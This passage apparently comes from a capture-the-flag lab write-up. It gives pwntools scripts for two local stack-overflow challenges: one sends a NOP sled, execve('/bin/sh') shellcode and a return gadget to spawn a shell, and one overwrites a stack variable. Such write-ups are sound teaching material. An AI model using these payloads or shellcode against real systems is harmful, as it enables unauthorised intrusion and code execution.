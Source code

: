 _Script/Command used:_    
```bash
ropper -f shellz
ragg2 -P 10000 -r > pattern.txt
(gdb) run < pattern.txt
```
```python
#!/usr/bin/python 

from pwn import *

host = "127.0.0.1"
port = 5004

offset = 8204
gadget = 0x08048406

c = remote(host, port)

payload = "\x90"*8000 
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" 
payload += "a"*181
payload += p32(gadget)

print("Sending payload...")

c.sendline(payload)

c.interactive()
```
---
## **4. canary-1 - elitecanary**
_General overview of problems faced:_   
None

_List of vulnerabilities:_    
1. Input from user can overflow the buffer and overwrite the next variable in the stack

_Steps to exploit:_ 
1. From the binary, find the offset of the buffer to the target variable
2. From the binary, find the content required in the target variable (1337)
3. Enter exactly offset bytes, then append the required content

_Script/Command used:_    
```python
#!/usr/bin/python

from pwn import *

host = "127.0.0.1"
port = 6001

offset = 32

c = remote(host, port)

payload = "a"*32 + "1337"

print("Sending payload: %s" % (payload))
c.sendline(payload)

c.interactive()
```
---